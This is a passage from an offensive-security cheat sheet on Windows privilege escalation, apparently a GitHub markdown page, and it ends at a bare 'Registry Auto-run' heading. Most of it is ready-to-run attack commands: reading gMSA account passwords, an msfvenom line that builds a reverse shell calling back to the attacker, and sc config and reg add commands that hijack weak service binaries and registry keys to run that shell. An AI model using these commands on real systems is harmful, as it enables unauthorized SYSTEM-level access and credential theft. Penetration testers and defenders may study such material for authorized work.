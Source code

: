 ### GMSAPasswordReader

* [Toolies](https://github.com/expl0itabl3/Toolies)

```bash
.\GMSAPasswordReader.exe --accountname '[NAME]'
```

### Service Binary Hijacking

```bash
# Payload
msfvenom -p windows/shell_reverse_tcp LHOST=tun0 LPORT=445 -f exe -o shell.exe

# Checks if a service has insecure permissions
.\accesschk.exe /accepteula -uwcqv "[USER]" *

# Displays additional information about the service
sc qc "[APP-NAME]"

# Changes `BINARY_PATH_NAME` to our reverse shell
sc config daclsvc binpath= "\"C:\PrivEsc\shell.exe\""

# Checks the permission of `filepermservice.exe`
.\accesschk.exe /accepteula -quvw "C:\Program Files\File Permissions Service\filepermservice.exe"

# Start Service
net start "[APP-NAME]"

# Stop Service
net stop "[APP-NAME]"

# Start Service
sc.exe start "[APP-NAME]"

# Stop Service
sc.exe stop "[APP-NAME]"
```
### Weak Registry Permissions

```bash
# Searching for weak registry permissions
.\accesschk.exe /accepteula -uvwqk "HKLM\System\CurrentControlSet\Services\regsvc"

# Replacing the weak registry permission to payload
reg add HKLM\SYSTEM\CurrentControlSet\services\regsvc /v ImagePath /t REG_EXPAND_SZ /d C:\PrivEsc\shell.exe /f

# Start Service
net start "[APP-NAME]"

# Stop Service
net stop "[APP-NAME]"
```
### Registry Auto-run
